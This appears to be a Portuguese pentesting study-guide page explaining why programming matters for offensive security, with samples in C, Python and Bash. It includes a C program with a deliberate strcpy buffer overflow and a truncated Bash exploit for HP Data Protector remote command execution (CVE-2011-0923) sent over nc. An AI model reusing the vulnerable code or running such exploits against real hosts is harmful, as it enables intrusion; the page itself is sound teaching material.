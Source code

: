 # 💻 Programação

Todas as aplicações foram feitas de código, como entender da segurança delas sem conhecer programação? Não dá! Quanto mais conhecimento nesse requisito, melhor. De fato a pessoa pentester não precisa ser uma grande programadora, na verdade já seria de bom tamanho saber fazer o mínimo de um code-review ou ser capaz de criar scripts/exploits direcionados para as análises, tais como um brute-force ou implementação de criptografia.

Existem muitas linguagens de programação, mas para a área de Segurança Ofensiva, há as mais importantes:



<details>

<summary><mark style="color:purple;">C/C++</mark></summary>

Das linguagens mais antigas, C e C++ são consideradas as mais importantes bases, pois até outras linguagens como JavaScript, Python, C#, Java foram feitas a partir delas. Aprender-las é crucial no ramo da tecnologia da informação, principalmente C, pois estão muito presentes em sistemas operacionais e nos estudos de engenharia reversa e exploração de binários(Arquivos ELF), como exemplo exploração de Kernel. Um pequeno exemplo de um código em C vulnerável a Buffer Overflow:

```c
#include <stdio.h>
#include <string.h>

int main (int argc, char** argv){
    char buf[256];
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    return 0;
}
```



</details>

<details>

<summary><mark style="color:purple;">Python</mark></summary>

A linguagem mais prática da atualidade, Python é excelente para desenvolvimento dos mais variados exploits, a maioria dos scripts de Infosec encontrados por aí provavelmente estarão nessa linguagem. Para todas as áreas de TI, Python tem uma biblioteca, muitas vezes usei **selenium** ou **requests** para fazer ataques de automação, inclusive o BurpSuite (Ferramenta de Proxying mais usado em Pentest) consegue transformar requisições em script de Python. Importação da requisição acima para um script em python usando o Burp:

```python
import requests

burp0_url = "https://dev.exemplo.com:443/app/v1/trocar_senha"
burp0_headers = {"Authorization": "Bearer b13d217d3e5a8ab802D6ccf4bca93e4",
                 "Accept-Encoding": "gzip, deflate", "Connection": "close"}
burp0_json={"nova_senha": "SuperSenha123", "senha_atual": "123456"}
requests.post(burp0_url, headers=burp0_headers, json=burp0_json)


```

</details>

<details>

<summary><mark style="color:purple;">Shell Script</mark></summary>

Linux é bastante importante como já vimos anteriormente, e Shell Scripting nada mais é do que termos uma maneira para combinar e automatizar o interpretador de comandos do sistema operacional. Assim como o Python, scripts em Bash são encontrados em incontáveis cenários tanto para PoCs de CVEs ou qualquer coisa relacionada à servidores Linux, entender isso seria trivial. Exemplo de um exploit em Bash Script:

```sh
#!/bin/bash
# Exploit Title: HP Data Protector Remote Root Shell for Linux(CVE-2011-0923)
# Author: SZ
# Reference: http://www.zerodayinitiative.com/advisories/ZDI-11-055/

[ $# -lt 3 ] && echo -en "Syntax: `basename ${0}` <host> <port> <commands>\n" && exit 0

HOST=`echo ${@} | awk '{print $1}'`
PORT=`echo ${@} | awk '{print $2}'`
CMD=`echo ${@} | sed 's/'$HOST'.*'${PORT}'\ \ *//g'`
SC=""
SC=${SC}"\x00\x00\x00\xa4\x20\x32\x00\x20"
SC=${SC}"\x2d\x2d\x63\x68\x30\x6b\x73\x2d"
.
.
.
SC=${SC}"\x00\x00\x00\x00\x00\x00\x00\x00"
SC=${SC}"\x00\x00\x00\x00\x00\x00\x00\x00"

SHELLCODE=${SC}
( echo -en ${SHELLCODE} ; echo ${CMD} ) | nc -w1 ${HOST} ${PORT}
```

</details>

